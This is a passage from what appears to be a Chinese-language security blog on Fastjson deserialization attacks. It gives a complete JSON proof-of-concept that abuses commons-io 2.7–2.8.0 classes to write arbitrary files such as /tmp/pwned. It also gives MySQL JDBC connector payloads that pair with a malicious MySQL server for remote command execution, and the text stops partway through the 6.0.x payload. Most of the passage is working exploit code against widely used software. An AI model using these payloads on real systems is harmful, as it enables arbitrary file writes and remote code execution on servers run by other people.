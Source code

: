 依赖于commons-io 2.7 - 2.8.0 的POC：

`{  "x":{    "@type":"com.alibaba.fastjson.JSONObject",    "input":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.ReaderInputStream",      "reader":{        "@type":"org.apache.commons.io.input.CharSequenceReader",        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)",        "start":0,        "end":2147483647      },      "charsetName":"UTF-8",      "bufferSize":1024    },    "branch":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.output.WriterOutputStream",      "writer":{        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",        "file":"/tmp/pwned",        "charsetName":"UTF-8",        "append": false      },      "charsetName":"UTF-8",      "bufferSize": 1024,      "writeImmediately": true    },    "trigger":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.XmlStreamReader",      "inputStream":{        "@type":"org.apache.commons.io.input.TeeInputStream",        "input":{          "$ref":"$.input"        },        "branch":{          "$ref":"$.branch"        },        "closeBranch": true      },      "httpContentType":"text/xml",      "lenient":false,      "defaultEncoding":"UTF-8"    },    "trigger2":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.XmlStreamReader",      "inputStream":{        "@type":"org.apache.commons.io.input.TeeInputStream",        "input":{          "$ref":"$.input"        },        "branch":{          "$ref":"$.branch"        },        "closeBranch": true      },      "httpContentType":"text/xml",      "lenient":false,      "defaultEncoding":"UTF-8"    },    "trigger3":{      "@type":"java.lang.AutoCloseable",      "@type":"org.apache.commons.io.input.XmlStreamReader",      "inputStream":{        "@type":"org.apache.commons.io.input.TeeInputStream",        "input":{          "$ref":"$.input"        },        "branch":{          "$ref":"$.branch"        },        "closeBranch": true      },      "httpContentType":"text/xml",      "lenient":false,      "defaultEncoding":"UTF-8"    }  }`

本地windows测试第一次成功写入，后面的只创建了文件并没有写入，需要刷新缓存或者重启服务才行

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162445-kyda3kd.png)

### Mysql RCE

[https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg](https://mp.weixin.qq.com/s/BRBcRtsg2PDGeSCbHKc0fg)

**BlackHat2021 腾讯玄武实验室的大佬公开了68版本mysql的利用链。配合恶意mysql服务端造成远程命令执行**

[https://dmsj-zjk.oss-cn-zhangjiakou.aliyuncs.com/share%2Fppt%2FBlackHat USA 2021%2Fus-21-Xing-How-I-Use-A-JSON-Deserialization.pdf?OSSAccessKeyId=LTAI4GKC6j39Agb66ieR44Ke&Expires=1629276415&Signature=jQ5O9EsNhlrXaLRbGAmDk7vrxDg%3D](https://dmsj-zjk.oss-cn-zhangjiakou.aliyuncs.com/share%2Fppt%2FBlackHat%20USA%202021%2Fus-21-Xing-How-I-Use-A-JSON-Deserialization.pdf?OSSAccessKeyId=LTAI4GKC6j39Agb66ieR44Ke&Expires=1629276415&Signature=jQ5O9EsNhlrXaLRbGAmDk7vrxDg%3D)

```csharp

5.1.x(SSRF)，5.1.11-5.1.48(反序列化链)
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "127.0.0.1",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_CommonsCollections4_calc",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}

6.0.2/6.0.3(反序列化)
{
       "@type":"java.lang.AutoCloseable",
       "@type":"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
       "proxy": {
```